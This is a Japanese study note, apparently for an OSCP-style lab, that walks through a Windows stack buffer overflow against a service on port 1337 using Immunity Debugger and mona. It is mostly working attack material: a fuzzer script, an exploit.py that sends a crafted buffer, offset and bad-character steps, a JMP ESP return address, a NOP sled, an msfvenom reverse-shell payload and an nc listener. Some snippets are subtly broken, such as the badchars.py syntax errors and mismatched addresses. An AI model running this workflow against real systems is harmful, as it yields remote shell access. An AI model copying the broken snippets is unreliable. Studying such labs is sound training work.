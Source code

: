 # <span style="color:Gold;">Imminity Debugger</span>
debugを実行するごとに毎回Imminity DebuggerをRestart(Ctrl + F2)( 実行 F9 )（アプリ再起動）

***<span style="color:blue;">★Spiking</span>***  
ncでターゲットに接続し色々試す   
ImmunityDebuggerにワーキングフォルダを作成

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona config -set workingfolder c:\mona\%p
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~   
ワーキングフォルダが作成出来ないときはmonaの設定ファイルを変更する場所はその時のエラーメッセージによる(C:\Program Files\Immunity Inc\Immunity Debugger/mona.ini)   
***<span style="color:blue;">★Fuzzer.py</span>***
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      #s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 fuzzer.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

EIPが41(A)で上書きされる
2000byteでクラッシュするからオフセットが1900~2000の範囲であることを示す。オフセットより400byte多い2400byteのパターンを作る

***<span style="color:blue;">★offsetを探す</span>***   
パターン作成

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf-pattern_create -l 2400
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

exploit.pyのpayloadに入れる

***<span style="color:blue;">★exploit.py</span>***

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 exploit.py
EIP=6F43396E
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona findmsp -distance 2400
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf-pattern_offset -l 2400 -q 6F43396E
>offset 1978
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exploit.pyのoffsetに1978、retnにBBBBを入力
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 exploit.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
EIPが42(B)で上書きされる   
***<span style="color:blue;">★悪い文字を見つける</span>***   
monaでバイト配列を生成しデフォルトでヌルバイト(\x00)を除外
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona bytearray -b "\x00"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
***<span style="color:blue;">★bytearrayと同じ\x01から\xffまでの不正な文字列を生成する</span>***   
badchars.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
from __future__ import print_function
for x in rang(1,256);
 print("\\x"+"{:02x}.format(x),end='')
print()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python badchars.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exploit.pyのpayload変数にコピー
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 exploit.py
ESP=00DCFA28
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ESP値を右クリック　Follow in dumpをクリック
06以降に不正な文字がある
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona compare -f c:\mona\oscp\bytearray.bin -a 00CDFA28
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
悪い文字の可能性がある文字が出てくる
07 08 2e 2f a0   
>>- <span style="color: red;">bad charがうまく出てこない時はretnのBBBBの数を変更してみる</span>   
>>- 左下の表示方法も変更してみる
>>- 「右クリック」＞「Long」＞「Address with ASCII dump」  


![long ASCLL.JPG](../_resources/long%20ASCLL.JPG)


>★<span style="color:red;">1文字ずつ確認する</span>   
>1.バイト配列から文字を削除   
>2.エクスプロイトペイロードから文字を削除   
>3.exeファイル起動   
>4.monaを使用して比較   

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona bytearray -b "\x00\x07"　　　　ペイロードからも\x07を削除
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 exploit.py
ESP=00EFFA28
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona compare -f c:\mona\oscp\bytearry.bin -a 00EFFA28(ESP)
possibly bad chars:2e 2f a0 a1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
同じ作業を1文字ずつ繰り返しBad charsが出なくなるまでやる
ジャンプポイントを見つける
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Resultsのアドレスをexploit.pyのretn変数に入れる（アドレスをリトルエンディアンに変換して入れる）
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
retn="\xaf\x11\x50\x62"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ペイロードの生成にはエンコーダーが使用されている可能性があるためペイロードが自ら解凍するためのメモリスペースが必要になる。
このためパディング変数に16バイト以上のNOP文字列を設定する(\x90)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
padding="\x90" * 16
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
***<span style="color:blue;">★リバースシェルペイロード作成</span>***
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py　-v payload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
出力されたペイロードをexploit.pyのpayload変数に代入

***<span style="color:blue;">★リスナー起動</span>***
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -lvnp 443
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 exploint.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
